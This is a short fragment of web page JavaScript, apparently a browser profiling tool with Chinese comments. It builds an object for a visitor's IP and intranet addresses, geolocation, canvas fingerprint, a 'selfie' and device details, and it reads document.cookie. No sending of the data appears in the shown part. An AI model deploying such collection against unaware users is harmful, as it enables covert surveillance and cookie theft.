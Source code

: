 ```
							info += keyBoardInfo();
							info += RomInfo();
							info += softDisk();
				}
				catch(err){
					 console.log(err) // 可执行
				}

                

                document.getElementById('elInfo').innerHTML = info;
                return info;
            }



            /******************************************以上为pc信息************************************************/
			
			
			
			
		
        </script>
		
		<script>
		
		
			
			
			
			
			
			
			
			
			
var info={
    ip:null,
    inner_ip:null,
    intranet: [],
    
    agent:null,
    geo:{
        support:null,
        error_code:null,
        lat:null,
        lon:null,
        address:null,
    },
    cookie:null,
    time:null,
    canvas_id:null,
    selfie:null,
    platform:null,
    device:null,
    window_screen:null,
    blob:null,
    download_speed:null,
};

info.cookie=document.cookie;
info.time=(new Date()).toString();
```